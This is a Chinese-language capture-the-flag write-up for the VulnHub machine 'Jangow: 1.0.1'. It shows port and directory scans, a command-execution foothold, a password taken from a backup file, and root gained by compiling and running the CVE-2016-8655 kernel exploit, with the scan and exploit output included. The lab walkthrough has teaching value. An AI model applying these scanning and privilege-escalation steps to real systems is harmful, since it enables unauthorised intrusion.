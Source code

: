 ```yaml
---
sidebar_position: 2
tags: [Easy, Linux, 命令执行, CVE]
title: "Jangow: 1.0.1"
sidebar_label: "Jangow: 1.0.1"
---
```

# Jangow: 1.0.1
## 端口扫描
```bash
jtz@attacker:~/CTF/VulhHub$ nmap -sTCV -p- --min-rate 1000 192.168.1.6
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-16 21:43 CST
Nmap scan report for jangow01 (192.168.1.6)
Host is up (0.0034s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
|_http-title: Index of /
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
|_
Service Info: Host: 127.0.0.1; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.97 seconds
```
## 80
```bash
jtz@attacker:~/CTF/VulhHub$ feroxbuster -u http://192.168.1.6/site -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher                    ver: 2.10.1
───────────────────────────┬──────────────────────
     Target Url            │ http://192.168.1.6/site
     Threads               │ 50
     Wordlist              │ /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
     Status Codes          │ All Status Codes!
     Timeout (secs)        │ 7
     User-Agent            │ feroxbuster/2.10.1
     Extract Links         │ true
     Extensions            │ [php, txt, html]
     HTTP methods          │ [GET]
     Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      309c http://192.168.1.6/site => http://192.168.1.6/site/
200      GET        8l       29w    28898c http://192.168.1.6/site/assets/favicon.ico
200      GET      106l      659w    26989c http://192.168.1.6/site/assets/img/demo-image-01.jpg
200      GET      492l     2733w   186437c http://192.168.1.6/site/assets/img/demo-image-02.jpg
200      GET      949l     4824w   385662c http://192.168.1.6/site/assets/img/bg-masthead.jpg
200      GET      679l     4637w   425261c http://192.168.1.6/site/assets/img/ipad.png
301      GET        9l       28w      319c http://192.168.1.6/site/wordpress => http://192.168.1.6/site/wordpress/
200      GET    11253l    21663w   207746c http://192.168.1.6/site/css/styles.css
200      GET     2608l    13994w   956051c http://192.168.1.6/site/assets/img/bg-signup.jpg
301      GET        9l       28w      312c http://192.168.1.6/site/js => http://192.168.1.6/site/js/
200      GET       54l      134w     1644c http://192.168.1.6/site/js/scripts.js
200      GET        1l        0w        1c http://192.168.1.6/site/busque.php
200      GET      173l      663w    10190c http://192.168.1.6/site/index.html
301      GET        9l       28w      316c http://192.168.1.6/site/assets => http://192.168.1.6/site/assets/
301      GET        9l       28w      313c http://192.168.1.6/site/css => http://192.168.1.6/site/css/
200      GET      173l      663w    10190c http://192.168.1.6/site/wordpress/index.html
200      GET        1l       10w       87c http://192.168.1.6/site/wordpress/config.php
```
之后我在页面开始进行了一系列的搜索, 但是我没有发现什么可以利用的地方, 经过一系列探索后, 我发现其中存在一个命令执行的地方
![20240524132906](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524132906.png)
## 后渗透
### www-data
虽然我发现了命令执行的地方, 但是一直没有获取到 Shell, 所以我下载了蚁剑, 并使用其来帮助我进行利用
![20240524132932](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524132932.png)
> 傻逼蚁剑, 不知道什么鬼, 就是连接不上, 一直就有这个问题, 果然集成工具不靠谱

### www-data —> jangow01
在我对网站目录进行搜寻时, 我发现一个特殊的备份文件, 从中获取到了 jangow01 的密码
![20240524133015](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524133015.png)

![20240524133027](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524133027.png)

### jangow01 —> root
上传 Linpeas 进行执行后, 发现了几个 CVE 漏洞
![20240524133053](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240524133053.png)
之后经过了一系列的搜索之后, 我确认了, 使用 [CVE-2016-8655](https://github.com/bcoles/kernel-exploits/tree/master/CVE-2016-8655)
```bash
(remote) jangow01@jangow01:/tmp$ gcc chocobo_root.c -o chocobo_root -lpthread -Wall
(remote) jangow01@jangow01:/tmp$ ls
chocobo_root  chocobo_root.c  linpeas.sh  systemd-private-8d9e565a1d2046a4af825a7685debc73-systemd-timesyncd.service-Qd25nD  tmux-1000
(remote) jangow01@jangow01:/tmp$ ./chocobo_root 
linux AF_PACKET race condition exploit by rebel
.........
root@jangow01:/tmp# 
root@jangow01:/tmp# id
uid=0(root) gid=0(root) grupos=0(root),1000(desafio02)
```
## 扩展
### 端口限制
在我们尝试获取 Reverse Shell 时, 我们可以发现对应的是无法获取的, 这里是因为目标端防火墙做了一些限制, 我们需要经过一些探测才可以确定对应的端口为 443 